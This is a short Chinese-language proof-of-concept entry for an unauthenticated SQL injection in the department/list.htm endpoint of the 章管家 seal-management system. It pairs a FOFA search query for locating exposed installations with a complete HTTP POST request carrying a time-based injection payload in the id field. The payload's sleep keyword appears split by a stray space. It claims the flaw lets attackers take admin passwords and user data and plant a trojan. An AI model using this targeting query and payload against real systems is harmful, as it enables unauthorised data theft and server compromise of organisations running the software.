 # 章管家list.htm存在SQL注入漏洞

章管家 department/list.htm 接口处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```javascript
body="章管家登录-公章在外防私盖"
```

## poc

```javascript
POST /app/department/list.htm HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Content-Type: application/x-www-form-urlencoded

token=dingtalk_token&person_id=1&unit_id=1&id=' or SL EEP(6) or '
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409132236104.png)
